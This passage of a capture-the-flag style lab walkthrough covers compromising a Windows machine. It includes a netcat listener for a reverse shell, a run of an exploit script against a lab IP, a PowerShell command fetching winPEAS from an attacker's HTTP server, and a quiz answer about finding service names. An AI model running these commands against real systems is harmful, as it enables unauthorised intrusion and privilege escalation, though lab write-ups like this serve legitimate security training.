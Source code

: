 Start a listener
- Start a simply netcat listener by entering nc -lvnp 443

Run the exploit with the correct arguments
- Run this command: python2 exploit.py 10.10.13.114 8080
- This script will not work without editing with python3.

Run the exploit once more

<p align="center"> <img src="https://i.imgur.com/sbwiwlt.png" height="90%" width="90%" alt=""/>


If you've followed the steps correctly, you should have three terminal tabs open. One is for running the exploit, another for the Python HTTP server, and the third for the Netcat listener.

<p align="center"> <img src="https://i.imgur.com/AEva5Bb.png" height="90%" width="90%" alt=""/>

Great job! We're moving on to the system now. Let's use PowerShell to fetch winPEAS. Start by getting the winPEAS binary from this link (https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) and set up the Python server again. Go to Bill's desktop (details below). Once there, run the following command in the PowerShell shell:

`powershell -c wget "http://<attacker ip>:8000/winPEAS.exe" -outfile "winPEAS.exe"`

<p align="center"> <img src="https://i.imgur.com/TsRTNMz.png" height="90%" width="90%" alt=""/>

After running winPeas (just type winPeas.exe), it shows us unquoted paths. It also reveals the name of the service it is currently running.

<p align="center"> <img src="https://i.imgur.com/ZfTDiNX.png" height="90%" width="90%" alt=""/>

We see the same vulnerability as we did when we used Metasploit.

Question 1: What powershell -c command could we run to manually find out the service name? *Format is “powershell -c “command here”*

`powershell -c Get-Service`



